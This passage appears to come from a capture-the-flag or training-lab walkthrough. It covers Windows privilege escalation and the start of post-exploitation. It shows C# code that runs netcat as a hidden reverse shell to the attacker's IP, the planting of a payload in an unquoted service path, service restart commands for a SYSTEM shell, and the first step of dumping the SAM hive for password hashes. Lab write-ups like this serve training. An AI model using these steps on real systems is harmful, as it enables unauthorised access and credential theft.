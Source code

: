 Let's now add the code for netcat using the function Main().

```cs
Process proc = new Process();
ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "tun0-IP LISTENINGPORT -e cmd.exe");
```

Let's add some evasion so that a GUI isn't created on startup.

```cs
procInfo.CreateNoWindow = true;
```

Compile with Mono.

Transfer the payload onto the target using curl and an http server like we did for netcat.

We now need to transfer the file into the correct path.

```
C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
C:\Program Files (x86)\System Explorer\System.exe
```

We can see the second one would work because the filepath is unquoted. Rename your payload to System.exe and put it there.

Remember this is a network so check to see if someone else is already doing this. If they are, wait for their binary to dissapear.

Now with the binary in place, restart the service!

```
sc stop SystemExplorerHelpService
sc start SystemExplorerHelpService
```

### Win! we should get a shell back as system!

Let's go ahead and clean it up now that we have our shell.

```
del "C:\Program Files (x86)\System Explorer\System.exe"
sc start SystemExplorerHelpService
```

Another [interesting wrapper](https://github.com/mattymcfatty/unquotedPoC) that doesn't error out the sc start command for the shell.

## Task 43: [Exfiltration] Exfiltration Techniques & Post Exploitation

Now that we have owned the network, we can move on to the final stage.

Read the information on Data Exfil and Post Exploitation to answer the questions.

Let's go ahead and get the local user hashes from the hive, **HKEY_LOCAL_MACHINE\SAM**.

* Save the SAM hive which will be in the current directory as sam.bak.

